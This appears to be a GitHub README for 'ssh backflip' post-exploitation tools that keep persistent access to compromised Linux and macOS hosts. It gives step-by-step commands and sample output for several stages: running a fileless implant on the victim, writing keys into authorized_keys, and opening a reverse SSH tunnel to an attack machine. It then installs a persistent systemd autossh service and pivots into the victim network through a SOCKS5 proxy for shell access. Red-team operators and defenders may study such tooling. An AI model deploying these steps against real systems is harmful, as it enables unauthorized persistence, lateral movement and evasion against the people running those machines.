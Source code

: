 # WTF

These are backflip scripts used to create ssh backflips. This allows
for a connection outbound from a compromised unix system to an attack
machine that provides a reverse tunnel back into the attack machine's
ssh server. It deploys keys to make this all possible.

Linux backflips are in linux-ssh-backflips.

OS X backflips are in osx-ssh-backflips.

# Things to Take Note of

* Port numbers for both reverse port forwards and socks proxies will
  need to be managed out of band. Implement a process and use it.
* You are running an additional ssh server that your victims ssh
  to. This can be abused by somebody who has control of the victim
  machine. While shell access is disabled, and only reverse forwarding
  will work, one should be aware of this caveat.

# Components

The structure here is a little confusing at first. Because we don't
want to leave a script file on disk, we give cut-n-paste commands that
are of the form `echo xxx|python`. The cut-n-paste command is
generated from the scripts that are indirectly run. This is important
for the operator to understand what these scripts do on target, but
the the scripts the operator directly uses are `make_backflip.py` and
`install_autossh_backflip.py`

## Linux backflips

### `make_backflip.py`

runs on the attack machine that gives the cut-n-paste command to
run on victim

### `implant.py`

embedded in `install_implant.py` that daemonizes and makes ssh
connections. Note that the current implementation uses
`subprocess.Popen` with `shell=True`, which will cause an `execve`
with `sh -c` to appear in logs.

### `install_implant.py`

template of script that will be encoded and outputed as the
cut-n-paste command by `make_backflip.py`

## Socks proxies over backflip

### `install_autossh_backflip.py`

runs on attack machine and installs and starts a socks proxy into victim network

# How to Setup a Backflip

In our examples, our victim is 10.0.0.1 and our proxy01 external IP is
at 10.50.0.1. We setup our reverse port-forwards are on ports 4000
onwards and our socks proxies are on ports 5000 onwards

1. Get a shell on victim host

1. run `make_backflip.py` on the attack host

	The invocation is `make_backflip.py <user> <victim-ip> <attacker-ip> <reverse listen port>`.
	Assuming the victim username is ubuntu, attack and victim ip given
	above, and listen port 4000:

		sudo ./make_backflip.py ubuntu 10.0.0.1 10.50.0.1 4000

	This will make port 4000 on proxy01 with a remote connection to
	10.0.0.1 on 22 when the command that is outputed is run on the
	victim. This will also create a keypair on the attack machine in
	`/opt/backflip/keys` with the format `<username>-<victim>-<attack>`.
	Note that you will need to allocate a new port with each blackflip
	created.

1. run the command that `make_backflip.py` outputs on the victim

   You should see output like:

		[+] keypath: /home/ubuntu/.ssh/id_rsab
		[+] wrote private key: /home/ubuntu/.ssh/id_rsab
		[+] wrote public key: /home/ubuntu/.ssh/id_rsab.pub
		[+] wrote to ~/.ssh/authorized_keys
		[+] started daemonized tunnel
		[*] waiting one minute for tunnel to come up...
		[+] tunnel running

1. run `install_autossh_backflip.py` on the attack host

	`install_autossh_backflip.py` will create a systemd service to initiate the ssh
	connection to the victim and reverse port-forward a connection to
	their ssh daemon on the attack system. Additionally, it will setup a
	SOCKS5 proxy listening on a port you specify. As above, it is
	important to note which SOCKS port you are using and each backflip
	will require a unique one.

	In this example, we setup a persistant ssh connection with reverse
	forward as well as a socks proxy on port 5000:

		sudo ./install_autossh_backflip.py 4000 5000 /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1
		contents:
		[Unit]
		Description=ssh backflip to 4000
		After=network.target auditd.service

		[Service]
		ExecStart=/usr/bin/autossh -oServerAliveInterval=30 -oServerAliveCountMax=5 -oUserKnownHostsFile=/dev/null -oStrictHostKeyChecking=no -oBatchMode=yes -n -N -D :5000 -i /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 -p4000 ubuntu@localhost

		[Install]
		WantedBy=multi-user.target

		Created symlink /etc/systemd/system/multi-user.target.wants/backflip-4000-5000.service → /etc/systemd/system/backflip-4000-5000.service.

	You can see that the proxy and ssh backflip are up:

		$ sudo netstat -lntp | grep -E "4000|5000"
		tcp        0      0 0.0.0.0:4000            0.0.0.0:*               LISTEN      20612/sshd: flip
		tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      20693/ssh
		tcp6       0      0 :::4000                 :::*                    LISTEN      20612/sshd: flip
		tcp6       0      0 :::5000                 :::*                    LISTEN      20693/ssh

	Notice that ssh is listening on 0.0.0.0, meaning that these services
	are available throughout the subnet.

# How to Use a Backflip

There are two primary ways to use a backflip: shell access and proxy access.

## Get a Shell

`/opt/backflips/keys` contains the necessary  ssh keypairs to ssh into
the victim machine. However, the permissions on the directory are such
that a normal user cannot use them. Each key to be used must be copied
to your home directory with permissions and ownership as SSH
expects. In our example:
```
sudo cp /opt/backflips/keys/ubuntu-10.0.0.1-10.50.0.1 ~/.ssh/
sudo chown $UID:$(id -g) ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
chmod 600 ~/.ssh/ubuntu-10.0.0.1-10.50.0.1
```

Note, the user will be the same user as used above to setup the
backflip.

The following will reward you with a shell on the victim:
```
ssh -i ~/.ssh/ubuntu-10.0.0.1-10.50.0.1 -p 4000 ubuntu@127.0.0.1
```

## Use a SOCKS5 Proxy

In our example above, there is a SOCKS5 proxy running on
port 5000. The most practical way to use it is with a browser plugin
such as foxyproxy or switchyomega. However, it is also available for
command line tools with the help of a proxy LD_PRELOAD library such as
`proxychains` or `tsocks`.

For example, a `proxychains.conf` in the current working directory
with contents as such:

	strict_chain
	# Quiet mode (no output from library)
	#quiet_mode
	proxy_dns

	# Some timeouts in milliseconds
	tcp_read_time_out 15000
	tcp_connect_time_out 8000

	[ProxyList]
	socks5  127.0.0.1 5000

We can verify that our SOCKS proxy works with curl as we see our
victim IP instead of our attack IP:

```
$ proxychains curl ifconfig.me; echo
ProxyChains-3.1 (http://proxychains.sf.net)
|DNS-request| ifconfig.me
|S-chain|-<>-127.0.0.1:5000-<><>-4.2.2.2:53-<><>-OK
|DNS-response| ifconfig.me is 216.239.32.21
|S-chain|-<>-127.0.0.1:5000-<><>-216.239.32.21:80-<><>-OK
10.0.0.1
```
